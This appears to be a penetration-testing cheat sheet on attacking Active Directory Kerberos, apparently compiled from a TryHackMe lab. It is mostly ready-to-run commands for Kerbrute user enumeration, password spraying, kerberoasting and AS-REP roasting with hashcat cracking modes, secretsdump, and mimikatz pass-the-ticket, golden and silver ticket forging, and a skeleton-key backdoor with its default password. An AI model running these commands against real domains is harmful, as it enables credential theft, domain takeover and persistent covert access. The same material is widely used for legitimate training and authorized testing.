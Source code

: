 # kerberos 101

## Kerberos Authentication

![](../.gitbook/assets/Kerberos-Auth.png)

### Enumerating Users using [Kerbrute](https://github.com/ropnop/kerbrute/releases)

```bash
./kerbrute -dc <DOMAIN-CONTROLLER> -d <FULL-DOMAIN> USER-WORDLIST.txt -t 50
```

### Harvesting TGTs using [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
Rubeus.exe harvest /interval:30

# password spray 
Rubeus.exe brute /password:Password1 /noticket
```

### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to
crack service password.

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound/releases)
* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

```bash
# using Rubeus.exe
Rubeus.exe kerberoast
# copy hash and crack using hashcat -m 13100

# using Impacket
# dump the Kerberos hash for all kerberoastable accounts
python3 GetUserSPNs.py DOMAIN/USER:PASS> -dc-ip <DOMAIN-CONTROLLER> -request
```

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

* Dumps the krbasrep5 hashes of user accounts
* If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an
  encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who
  they say that they are.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the
  specified user account.

```bash
# using Rubeus.exe
Rubeus.exe asreproast
# add $23 after $krb5asrep$
# hashcat -m 18200

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py DOMAIN/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
# hashcat -m 18200

secretsdump.py USER@DOMAIN-IP
```

### Pass-the-ticket using mimikatz

* Can be used for dumping user credentials inside an AD network
* Can dump the TGT from the LSASS memory (which stores Kerberos ticket as the gatekeeper and accept or reject the
  credentials provided)
* Gives a .kirbi ticket - can be used to get domain admin
* Allows to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using mimikatz

* Silver ticket => more stealth and discreet; only for target service
* Golden ticket => any kerberos service

NOTE:

* **KRBTGT: **service account in KDC; issues all TGTs. If impersonate this account and create a golden ticket we have
  ability to create a service ticket for any service
* **TGT:** ticket to a service account issued by the KDC and can only access that service.

#### Golden Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: krbtgt

# create ticket golden
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

#### Silver Ticket

```bash
# dump
lsadump::lsa /inject /name: [<domain-admin-account> | <service-account>]

# create ticket silver
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

### Kerberos backdoor using mimikatz

* Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.
* A skeleton key only works using Kerberos RC4 encryption.
* The default hash skeleton key is `60BA4FCADC466C7A033C178194C03DF6` (password:`mimikatz`)

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## References

* [TryHackMe:attackingkerberos](https://tryhackme.com/room/attackingkerberos)
* [Kerberos Authentication Image](https://www.manageengine.com/products/active-directory-audit/kb/windows-security-log-event-id-4768.html)